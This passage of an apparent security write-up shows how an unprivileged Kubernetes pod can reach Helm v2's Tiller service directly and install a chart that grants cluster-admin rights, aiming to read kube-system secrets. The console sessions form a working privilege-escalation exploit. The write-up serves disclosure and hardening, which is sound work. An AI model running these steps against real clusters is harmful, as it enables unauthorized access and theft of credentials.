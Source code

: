 For now, lets test our access to tiller from inside the cluster.  The
following sets up a [basic shell environment][helmsploit] running in a
temporary pod in the "default" namespace.  Importantly, this pod has
no special privileges.

[helmsploit]: helmsploit/Dockerfile

```console
 % kubectl run -n default --quiet --rm --restart=Never -ti --image=helmsploit incluster
root@incluster:/# helm version
Client: &version.Version{SemVer:"v2.7.2", GitCommit:"8478fb4fc723885b155c924d1c8c410b7a9444e6", GitTreeState:"clean"}
Error: cannot connect to Tiller
```

Good! "Error: cannot connect to Tiller" is exactly what we want to
see!  But wait, we saw earlier that tiller installs a service by
default.  _What happens if we try to talk to that host/port directly?_

```console
root@incluster:/# telnet tiller-deploy.kube-system 44134
Trying 10.0.0.216...
Connected to tiller-deploy.kube-system.svc.cluster.local.
Escape character is '^]'.
^]
telnet> quit
Connection closed.
```

Huh, that looks like I *can* connect to tiller.  Sure enough, the
earlier "cannot connect" error wasn't quite true and what actually
failed was the `helm` CLI trying to *discover* tiller.  If we bypass
the discovery step, **the actual connection to tiller works just
fine**:

```console
root@incluster:/# helm --host tiller-deploy.kube-system:44134 version
Client: &version.Version{SemVer:"v2.7.2", GitCommit:"8478fb4fc723885b155c924d1c8c410b7a9444e6", GitTreeState:"clean"}
Server: &version.Version{SemVer:"v2.7.0", GitCommit:"08c1144f5eb3e3b636d9775617287cc26e53dba4", GitTreeState:"clean"}
```

Just to drive home exactly what this means, here's the rest of an
example exploit.  I created a [very simple chart][pwnchart] that just
binds the "default" service account to a wildcard "allow everything"
RBAC ClusterRole.  You can see that installing this chart immediately
allows my previously-unprivileged pod to **read the secrets from
`kube-system`** (for example).

[pwnchart]: pwnchart

```console
root@incluster:/# kubectl get secrets -n kube-system
Error from server (Forbidden): secrets is forbidden: User "system:serviceaccount:default:default" cannot list secrets in the namespace "kube-system"

root@incluster:/# helm --host tiller-deploy.kube-system:44134 install /tmp/pwnchart-0.1.0.tgz
NAME:   dozing-moose
LAST DEPLOYED: Fri Dec  1 11:24:22 2017
NAMESPACE: default
STATUS: DEPLOYED

RESOURCES:
==> v1beta1/ClusterRole
NAME           AGE
all-your-base  0s

==> v1beta1/ClusterRoleBinding
NAME          AGE
belong-to-us  0s
```

[architecture]: https://github.com/kubernetes/helm/blob/master/docs/architecture.md
[charts]: https://github.com/kubernetes/helm/blob/master/docs/charts.md
[gRPC]: https://grpc.io/
[monocular]: https://github.com/kubernetes-helm/monocular
[landscaper]: https://github.com/Eneco/landscaper
[armada]: https://github.com/att-comdev/armada
[tiller-ssl]: https://github.com/kubernetes/helm/blob/master/docs/tiller_ssl.md
[tls.make]: tls.make
[kubeapps]: https://kubeapps.com/
[tillersidecar]: https://github.com/kubeapps/manifest/blob/5c159b7584e088546acef0414d3ba7b9c909f160/kubeapps-dashboard.jsonnet#L114
[kubecfg]: https://github.com/ksonnet/kubecfg
[helm-crd]: https://github.com/bitnami/helm-crd
[pr-3212]: https://github.com/kubernetes/helm/pull/3212